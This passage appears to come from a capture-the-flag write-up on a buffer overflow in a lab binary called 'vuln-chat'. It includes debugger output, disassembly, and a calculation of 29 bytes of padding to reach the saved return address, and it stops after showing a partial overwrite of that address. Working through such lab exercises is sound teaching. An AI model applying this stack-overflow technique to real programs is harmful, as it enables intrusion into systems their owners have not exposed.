 ```sh
[#0] Id 1, Name: "vuln-chat", stopped 0x80485d6 in main (), reason: BREAKPOINT
────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── trace ────
[#0] 0x80485d6 → main()
─────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
gef➤  x/s $ebp-0x5
0xffffcf73:     "%30s"
gef➤  x/s $ebp-0x19
0xffffcf5f:     "AAAA"
```

- You can see `ebp-0x19` is our `input_buffer_username`, the first buffer.
- `ebp-0x5` is `scanf_format`, which actually limits our input to 30 characters.
    - But that is well enough to overflow the buffer.
- Then you have second `scanf`:

```asm
   0x0804862c <+162>:   lea    eax,[ebp-0x2d]
   0x0804862f <+165>:   push   eax
   0x08048630 <+166>:   lea    eax,[ebp-0x5]
   0x08048633 <+169>:   push   eax
   0x08048634 <+170>:   call   0x8048460 <__isoc99_scanf@plt>
```

- And `ebp-0x2d` is `input_buffer`, the second buffer.
- Just to verify:

```sh
gef➤  x/s $ebp-0x2d
0xffffcf4b:     "lmao"
```

- Alright, let's now calculate how much padding we need to reach the return address on the stack.

```sh
gef➤  search-pattern LMAO
[+] Searching 'LMAO' in memory
[+] In '[heap]'(0x804a000-0x806c000), permission=rw-
  0x804a1a0 - 0x804a1a6  →   "LMAO\n"
[+] In '[stack]'(0xfffdd000-0xffffe000), permission=rw-
  0xffffcf5f - 0xffffcf63  →   "LMAO"
gef➤  i f
Stack level 0, frame at 0xffffcf80:
 eip = 0x80485d6 in main; saved eip = 0xf7c21519
 Arglist at 0xffffcf78, args:
 Locals at 0xffffcf78, Previous frame's sp is 0xffffcf80
 Saved registers:
  ebp at 0xffffcf78, eip at 0xffffcf7c
```

- `0xffffcf7c` - `0xffffcf5f` is 29.
- So padding of 29 characters to reach return instruction, but only 30 characters to enter (`scanf_format`).
- Giving it 30 A's you can see that I've managed to change the last byte of return address:
